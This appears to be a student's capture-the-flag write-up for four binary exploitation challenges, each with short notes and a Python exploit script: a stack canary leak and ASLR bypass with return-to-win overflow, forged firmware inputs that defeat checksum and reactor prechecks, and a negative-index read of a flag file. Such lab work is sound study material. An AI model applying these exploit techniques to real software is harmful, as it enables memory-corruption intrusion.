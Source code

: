 Stack Dump 2
===========================

General overview of problems faced
-------------------------------------
Finding the canary was a challenge, I was not able to work out the offset correctly to read the canary memory field.

List of vulnerabilities
--------------------
Use of gets when reading length of entered string allows for buffer overflow. Also, program allows user to read arbitrary memory, which allows it to leak the canary.

Steps to exploit
------------------
Similar to original stack-dump except this time we had to calculate the base of the offsets to bypass ASLR. To achieve this, find the address of the instruction pointer (located right after the stack pointer, it points to main+40), read its value and use that value to set the base offset for the binary.

Script/Command used
------------------
```python

def runner(send):
    P.recvuntil(b'[q]uit', drop=True)
    if(send in ['i', 'd', 'p', 'q']):
        P.sendline(send.encode())

def say(length, payload):
    runner('i')
    P.recvuntil(b'len: ', drop=True)
    P.sendline(length)
    P.sendline(payload)

######################################
############## Exploit ###############
######################################

def exploit():
    connect_binary()
    P.recvuntil(b'pointer ', drop=True)
    orig_stk_ptr = int(P.recvline(), 16)
    stk_ptr = p64(orig_stk_ptr + 65)
    leak = p64(orig_stk_ptr + 0x61) # points to main + 40

    log.info("Canary pointer: %x" % (u64(stk_ptr)))
    log.info("Stack pointer: %x" % (orig_stk_ptr))
    log.info("Leak: %x" % (u64(leak)))

    say(str(len(stk_ptr)).encode(), stk_ptr)

    runner('d')
    P.recvline()
    canary = re.search(b': (.*)\n', P.recvline()).group(1)[:8]
    log.info("Canary: %s" % canary)

    say(str(len(leak)).encode(), leak)
    runner('d')
    P.recvline()
    function = P.recvline()[28:36]
    log.info("Function: %s" % function)

    leak = u64(function)
    base = leak - 40 - E.symbols['main']
    win = base + E.symbols['win']
    payload = b'A' * 56 + canary + b"A" * 24 + p64(win)

    say(str(len(payload)).encode(), payload)
    runner('q')
    P.interactive()
    P.close()

```

Nuclear Facility 1
===========================

General overview of problems faced
-------------------------------------
N/A

Steps to exploit
------------------
Craft input based on checksum logic to update firmware. 

Script/Command used
------------------
```python
def update_firmware():
    firmware = bytearray(512)
    firmware[0] = 0x46  # 'F'
    firmware[1] = 0x57  # 'W'
    firmware[2] = 0x31  # '1'
    firmware[3] = 0x32  # '2'

    firmware[4] = 0x00
    firmware[5] = 0x00

    for i in range(6, 512):
        firmware[i] = 0x01  

    var_10 = sum(firmware[6:512])

    rax_24 = ((var_10 >> 0x1f) >> 0x18)
    rdx_5 = (((var_10 + rax_24) - rax_24) & 0xFF)  

    firmware[4] = rdx_5 // 2
    firmware[5] = rdx_5 - firmware[4]

    return firmware
```


Nuclear Facility 2
===========================

General overview of problems faced
-------------------------------------
N/A

Steps to exploit
------------------
Craft input based on checksum logic to update firmware. Input must also be able to override precheck reactor checks.

Script/Command used
------------------
```python

def execute_firmware():
    firmware = bytearray(512)
    firmware[0:4] = b"FW12" 

    padding_length = 0x4220 - 0x4024  
    firmware.extend(b'A' * padding_length)
    firmware.extend((0x6e00).to_bytes(4, byteorder='little')) 
    firmware.extend((0x0001).to_bytes(4, byteorder='little')) 
    firmware.extend((0x0001).to_bytes(4, byteorder='little'))  
    firmware.extend(b'\x00' * (2048 - len(firmware)))

    return firmware

```


Image Viewer
===========================

General overview of problems faced
-------------------------------------
Had trouble offsetting correctly to read the image struct and the filename.

Steps to exploit
------------------
The strategy is to index back into your buffer and read from your own image struct. We can also insert the flag in the same buffer and then insert a pointer to where the flag is located to read from that value.

Script/Command used
------------------
```python

def exploit():
    P.recvuntil(b'$ ', drop=True)
    P.sendline(b'password123')
    payload = b"-14" + b'a'*13 # 16 bytes
    payload += b'/flag' + b'\0' * 11 # 16 bytes
    payload += b"\xf2\xff\xff\xff\x00\x00\x00\x00" # 8 bytes
    payload += p64(0x404090) # 8 bytes
    payload += b'\0' * (256 - len(payload)) # another 13 chunks of 16 bit sized blocks
    P.sendline(payload)
    P.interactive()

```

